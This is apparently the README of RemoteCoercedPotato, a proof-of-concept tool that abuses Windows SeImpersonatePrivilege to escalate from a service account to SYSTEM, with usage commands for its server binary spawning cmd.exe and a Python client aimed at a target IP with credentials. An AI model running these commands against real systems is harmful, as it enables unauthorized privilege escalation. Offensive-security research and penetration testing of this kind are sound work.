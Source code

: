 # RemoteCoercedPotato


```txt
Remote
   ____                            _ ____       _        _        
  / ___|___   ___ _ __ ___ ___  __| |  _ \ ___ | |_ __ _| |_ ___  
 | |   / _ \ / _ \ '__/ __/ _ \/ _` | |_) / _ \| __/ _` | __/ _ \ 
 | |__| (_) |  __/ | | (_|  __/ (_| |  __/ (_) | || (_| | || (_) |
  \____\___/ \___|_|  \___\___|\__,_|_|   \___/ \__\__,_|\__\___/ 
                                                                  
                                           @Hack0ura @Prepouce                         
```

A quick POC of a Coerced Patate but remotly (just for fun).

From Patate (LOCAL/NETWORK SERVICE) to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10, Windows 11 and Server 2022.

For more information: [https://blog.hackvens.fr/articles/CoercedPotato.html](https://blog.hackvens.fr/articles/CoercedPotato.html) (The english version is coming soon!! 😄)

## Usage 

First, you can check the help message using the `--help` option.

A very quick PoooooC:

- Without random namedpipe (default):
```txt
    ./CoercedPotatoServer.exe -c cmd.exe
```
```txt
    ./CoercedPotatoClient.py -u user -p password 127.0.0.1 [targeted_IP]
```

 - With a random namedpipe, given by CoercedPotatoServer.exe: 
```txt 
    ./CoercedPotatoServer.exe -c cmd.exe -r true 
```
```txt        
    ./CoercedPotatoClient.py -n [randomnamedpipe] -u user -p password -r true 127.0.0.1 [targeted_IP] 
```



## Todo 
 
- Implemention of MS-RPRN interfacce 
    
- Creation a powershell of a bytecode version of the namedPipe server 


Made in France 🇫🇷 with <3
